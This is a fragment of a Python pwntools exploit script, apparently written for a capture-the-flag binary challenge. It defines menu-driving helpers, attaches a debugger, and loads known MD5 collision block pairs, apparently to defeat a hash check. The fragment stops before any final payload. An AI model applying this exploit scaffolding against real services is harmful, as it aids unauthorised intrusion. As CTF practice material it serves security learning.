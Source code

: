 ``` python

def login(s, name):
    s.recvuntil(b"> ")
    s.send(name)
    return s.recvuntil(b"> ")

def _list(s):
    s.sendline(b"1")
    sleep(0.1)
    return s.recvuntil(b"> ")

def register(s, title, category, size, contents):
    s.sendline(b"2")
    s.recvuntil(b"> ")
    s.send(title)
    s.recvuntil(b"> ")
    s.sendline(str(category).encode())
    s.recvuntil(b"> ")
    s.send(str(size).encode())
    sleep(0.1)
    s.send(contents)
    return s.recv()

def broadcast(s, index, floor, room, channel):
    s.sendline(b"3")
    s.recvuntil(b"> ")
    s.sendline(str(index).encode())
    s.recvuntil(b"> ")
    s.sendline(f"{floor}-{room}-{channel}".encode())
    return s.recv(timeout=5)

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
        pid = os.popen(f"sudo docker top {BINARY} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
        if DEBUG:
            gdb.attach(int(pid), gs, exe=BINARY, sysroot="./")
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    login(s, os.urandom(4))
    # md5 collision - 79054025255fb1a26e4bc422aef54eb4
    a1 = bytes.fromhex('d131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70')
    a2 = bytes.fromhex('d131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70')
    # md5 collision - cee9a457e790cf20d4bdaa6d69f01e41
    b1 = bytes.fromhex('0e306561559aa787d00bc6f70bbdfe3404cf03659e704f8534c00ffb659c4c8740cc942feb2da115a3f4155cbb8607497386656d7d1f34a42059d78f5a8dd1ef')
    b2 = bytes.fromhex('0e306561559aa787d00bc6f70bbdfe3404cf03659e744f8534c00ffb659c4c8740cc942feb2da115a3f415dcbb8607497386656d7d1f34a42059d78f5a8dd1ef')
    # md5 collision - fe6c446ee3a831ee010f33ac9c1b602c
    c1 = bytes.fromhex('3775C1F1C4A75AE79CE0DE7A5B10802602ABD939C96C5F0212C27FDACD0DA3B08CEDFAF3E1A3FDB4EF09E7FBB1C3991DCD91C845E66EFD3DC7BB61523EF4E03849118569EBCC179C934F40EB3302AD20A4092DFB15FA201DD1DB17CDDD29591E39899EF679469FE68B85C5EFDE424F46C278759D8B65F450EA21C5591862FF7B')
```